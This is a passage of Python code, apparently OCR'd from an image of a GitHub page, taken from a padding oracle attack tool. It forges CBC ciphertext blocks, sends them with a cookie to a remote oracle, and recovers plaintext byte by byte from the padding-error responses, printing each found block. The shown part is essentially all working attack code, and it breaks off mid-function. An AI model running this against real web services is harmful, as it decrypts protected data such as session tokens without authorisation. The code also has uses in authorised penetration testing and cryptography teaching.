 ```

                    tmp = hex_xor(bk, bp)
                    cb = hex_xor(tmp, bc).upper()

                    up_cipher = cb + cipher_block[block]

                    # call the oracle
                    connection, response = call_oracle(
                        host, cookie, url, post, method, up_cipher
                    )

                    # DO NOT print response.status (not HTTP)
                    exe = re.findall("..", cb)
                    discover = ("").join(exe[size_block - i : size_block])
                    current = ("").join(exe[size_block - i - 1 : size_block - i])
                    find_me = ("").join(exe[: -i - 1])
                    sys.stdout.write(
                        f"\r[+] Test [Byte {ct_pos:03d}/256 - Block {block} ]: \033[31m{find_me}\033[33m{current}\033[36m{discover}\033[0m"
                    )
                    sys.stdout.flush()

                    if test_validity(response, error):
                        found = True
                        try:
                            connection.close()
                        except:
                            pass

                        value = re.findall("..", bk)
                        valide_value.insert(0, value[size_block - (i + 1)])

                        print("")
                        print("[+] Block M_Byte : %s" % bk)
                        print("[+] Block C_{i-1}: %s" % bp)
                        print("[+] Block Padding: %s" % bc)
                        print("")

                        bytes_found = "".join(valide_value)
                        if (
                            i == 0
                            and int(bytes_found, 16) > size_block
                            and block == len(cipher_block) - 1
                        ):
                            print(
                                "[-] Error decryption failed the padding is > "
                                + str(size_block)
                            )
                            sys.exit()

                        print("\033[36m\033[1m[+]\033[0m Found", i + 1, "bytes :", bytes_found)
                        print("")
                        break

            if found == False:
                # assume padding is 01 for the last byte of last block (padding block)
                if len(cipher_block) - 1 == block and i == 0:
                    value = re.findall("..", bk)
                    valide_value.insert(0, "01")
                    print("")
                    print("[-] No padding found, but maybe the padding is length 01 :)")
                    print("[+] Block M_Byte : %s" % bk)
                    print("[+] Block C_{i-1}: %s" % bp)
```